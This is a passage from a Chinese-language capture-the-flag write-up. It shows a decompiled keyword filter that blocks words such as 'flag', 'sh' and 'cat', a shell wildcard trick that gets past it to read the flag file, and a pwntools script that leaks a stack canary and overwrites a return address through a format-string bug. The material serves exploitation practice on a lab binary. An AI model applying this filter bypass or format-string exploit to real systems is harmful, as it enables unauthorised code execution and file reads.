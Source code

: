 结果程序触发了canary机制,直接中断了.原来是在我们移动了`rbp`之后,栈上存储的canary就相对rbp不知道跑哪里去了.理论上来说我们可以把泄露的canary值也给塞进第三段payload,不过这里我采用了另一个方案:

```assembly
$ awk '{print}' /fl?g
flag{th15_15_fak0_f1ag}
```

利用通配符机制,绕过单词过滤.

首先,题目过滤了以下单词: flag sh cat tac *

```c++
__int64 __fastcall check(const char *a1)
{
  _BOOL4 v2; // [rsp+1Ch] [rbp-14h]
  int v3; // [rsp+20h] [rbp-10h]
  int v4; // [rsp+24h] [rbp-Ch]
  int v5; // [rsp+28h] [rbp-8h]

  v2 = strstr(a1, "flag") != 0LL;
  v3 = (strstr(a1, "sh") != 0LL) + v2;
  v4 = (strstr(a1, "cat") != 0LL) + v3;
  v5 = (strstr(a1, "tac") != 0LL) + v4;
  return (unsigned int)(strchr(a1, 42) != 0LL) + v5;
}
```

其中`*`是通配符,指的是任意数量的任意字符.类似的还有`?`,可以用来代替单个任意字符.

这样的话,我们就不需要在执行流层面绕过保护机制了,直接跳转到`what()`的函数入口,正常执行即可.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

system_add=0x401411

r=process("./pwn")
#gdb.attach(r)
#pause()

r.recvuntil(">\n")
payload1=b'%p %41$p'
r.send(payload1)
leak=r.recvuntil('00i')
ret_add=int(leak[:14],16)+0x118
leak_canary=int(leak[15:-1],16)

print(hex(ret_add))
print(hex(leak_canary))


#payload2=b'%17c%10$hhn     '+p64(ret_add)
payload2=b'a'
r.send(payload2)
pause()
bss=(ret_add-0x8)%0x100-0x78
#payload3=b'%'+str(bss)+b'c%10$hhn     '+p64(ret_add-0x8)+b'a'*0x50+b'/bin/sh\x00'+b'a'*0x28+p64(leak_canary)
#bss-0x98

payload3=b'%4971c%10$hn    '+p64(ret_add)
r.send(payload3)

r.interactive()
```